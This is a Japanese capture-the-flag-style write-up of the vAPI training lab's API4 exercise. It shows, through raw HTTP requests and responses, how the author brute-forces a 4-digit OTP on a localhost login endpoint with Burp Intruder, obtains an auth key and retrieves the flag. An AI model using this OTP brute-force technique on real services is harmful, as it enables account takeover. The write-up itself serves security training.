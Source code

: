 # API4 Lack of Resources & Rate Limiting
多くの場合、APIはクライアントからの過剰なリクエストから自身を保護するようには構成されていない。  
攻撃者はこの欠陥を利用してDoSを実行したり認証メカニズムをバイパスするために多すぎる要求を悪用することがある。  

電話番号を使ったOTP認証を模したAPI。  
電話番号をリクエストすると「4桁のOTPを送ったよ」とメッセージが返ってくる。

```http
POST /vapi/api4/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: c89ccf82-7486-4104-8cda-a0b2e332c178
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 33

{
    "mobileno":"8000000535"
}
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:44:18 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:44:18 GMT
Content-Type: application/json

{"success":"true","msg":"4 Digit OTP sent on mobile no."}
```

OTPを受け取れる端末は持っていないので適当に9999を送ってみると、正しくないと言われる。
```http
POST /vapi/api4/otp/verify HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: b025d670-72f2-4000-a95e-60d233d66e4b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 22

{
    "otp":"9999"
}
```
```http
HTTP/1.1 403 Forbidden
Host: localhost
Date: Sat, 05 Mar 2022 13:44:25 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:44:25 GMT
Content-Type: application/json

{"success":"false","cause":"Invalid OTP"}
```

Intruderで0000から9999まで全部試してみる。
![](./img/20220305224823.png)

![](./img/20220305225036.png)

1872が当たりのようだ。
```http
POST /vapi/api4/otp/verify HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: b025d670-72f2-4000-a95e-60d233d66e4b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 22

{
    "otp":"1872"
}
```

```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:51:05 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:51:05 GMT
Content-Type: application/json

{"success":"true","key":"FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y"}
```

認証後のGet Detailsを送るとFlagが返ってくる。
```http
GET /vapi/api4/user HTTP/1.1
Authorization-Token: FZvjaFlMgUfnpFJDhKx-92xeXx_sCr7Y
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 7d50ef2f-d394-436a-94eb-9048327aaefa
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close

```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 13:52:12 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 13:52:12 GMT
Content-Type: application/json

[{"id":1,"firstname":"john","lastname":"flag{api4_ce696239323ea5b2d015}"}]
```
